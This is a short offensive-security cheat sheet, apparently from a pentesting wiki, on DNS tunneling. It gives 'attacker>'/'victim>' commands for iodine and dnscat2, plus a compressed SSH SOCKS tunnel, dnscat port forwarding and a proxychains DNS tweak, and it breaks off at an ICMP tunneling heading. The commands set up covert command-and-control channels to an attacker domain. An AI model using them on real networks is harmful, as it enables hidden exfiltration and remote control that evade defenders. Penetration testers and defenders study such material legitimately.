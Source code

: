 # DNS Tunneling<ins></ins>

## Iodine<ins></ins>

<ins>https://code.kryo.se/iodine/</ins>

Root is needed in both systems to create tun adapters and tunnels data between them using DNS queries.

|     |     |
| --- | --- |
| 1<br><br>2<br><br>3 | `attacker> iodined -f -c -P P@ssw0rd 1.1.1.1 tunneldomain.com`<br><br>`victim> iodine -f -P P@ssw0rd tunneldomain.com -r`<br><br>`#You can see the victim at 1.1.1.2` |

The tunnel will be really slow. You can create a compressed SSH connection through this tunnel by using:

|     |     |
| --- | --- |
| 1   | `ssh` `<user>@1.1.1.2 -C -c blowfish-cbc,arcfour -o CompressionLevel=9 -D 1080` |

## DNSCat2<ins></ins>

Establishes a C&C channel through DNS. It doesn’t need root privileges.

|     |     |
| --- | --- |
| 1<br><br>2 | `attacker> ruby .``/dnscat2``.rb tunneldomain.com`<br><br>`victim> .``/dnscat2` `tunneldomain.com` |

**Port forwarding with dnscat**

|     |     |
| --- | --- |
| 1<br><br>2 | `session -i <sessions_id>`<br><br>`listen [lhost:]lport rhost:rport` `#Ex: listen 127.0.0.1:8080 10.0.0.20:80, this bind 8080port in attacker host` |

### Change proxychains DNS<ins></ins>

Proxychains intercepts  `gethostbyname`  libc call and tunnels tcp DNS request through the socks proxy. By  **default**  the  **DNS**  server that proxychains use is  **4.2.2.2**  (hardcoded). To change it, edit the file:  */usr/lib/proxychains3/proxyresolv*  and change the IP. If you are in a  **Windows environment**  you could set the IP of the  **domain controller**.

# Tunnels in Go<ins></ins>

<ins>https://github.com/hotnops/gtunnel</ins>

# ICMP Tunneling<ins></ins>

## Hans<ins></ins>
